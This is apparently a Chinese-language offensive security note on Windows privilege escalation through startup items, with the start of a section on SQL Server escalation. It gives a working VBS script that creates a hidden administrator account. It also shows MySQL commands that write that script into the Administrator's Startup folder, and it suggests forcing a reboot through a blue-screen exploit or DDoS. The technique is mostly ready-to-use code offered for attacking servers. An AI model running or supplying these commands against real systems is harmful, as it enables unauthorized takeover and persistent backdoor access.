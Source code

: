 #### 启动项提权

* 原理：windows开机时候都会有一些开机启动的程序，那时候启动的程序权限都是system，因为是system把他们启动的，利用这点，我们可以将自动化脚本写入启动项，达到提权的目的。将一段vbs脚本导入开机启动项，如果管理员重启了服务器，那么就会自动调用，并执行其中的用户添加及提权命令
* 利用条件：

1. 目标目录可读写
2. 调用的cmd要有足够权限
3. 重启服务器可以利用导致服务器蓝屏的exp，或者ddos

* 提权方式

1. 直接将vbs提权脚本上传到启动项目录下
2. sql命令创建添加vbs脚本

vbs提权脚本：

```
set wsnetwork=CreateObject("WSCRIPT.NETWORK")
os="WinNT://"&wsnetwork.ComputerName
Set ob=GetObject(os) #得到adsi接口
Set oe=GetObject(os&"/Administrators,group") #用户组
Set od=ob.Create("user","name") #name为用户名
od.SetPassword "passwd" #passwd为密码
od.SetInfo #保存
Set of=GetObject(os&"/name",user) #得到用户
oe.add os&"/name"
```

* sql命令创建

1. 连接到对方MySQL服务器,进入后查看数据库中有哪些数据表

* 命令:show tables
* 默认的情况下，test中没有任何表的存在。

2. 进入test数据库，并创建一个新的表:
   `create table a(cmd text)`//创建了一个新的表，名为a，表中只存放了一个字段，字段名为cmd，为text文本

3. 在表中插入内容，用这三条命令来建立一个VBS的脚本程序:

`insert into a values("set wshshell=createobject(""wscript.shell"")");`
`insert into a values("a=wshshell.run(""cmd.exe /c net user name passwd /add"",0)");`
`insert into a values("b=wshshell.run(""cmd.exe /c net localgroup administrators name /add"",0)");`

4. 输出表为一个VBS的脚本文件
   `select * from a into dumpfile "C:\Documents and Settings\Administrator\「开始」菜单\程序\启动1.vbs";`

5. 利用其他手段重启电脑

### sql server提权

* 利用条件

1. 必须获得sa的账号密码或者与sa相同给权限的账号密码，且mssql没有被降权
2. 能执行sql语句。如webshell或者1433端口连接

在windows，sa账号通常是被降权为db-owner的。而不是sysadmin
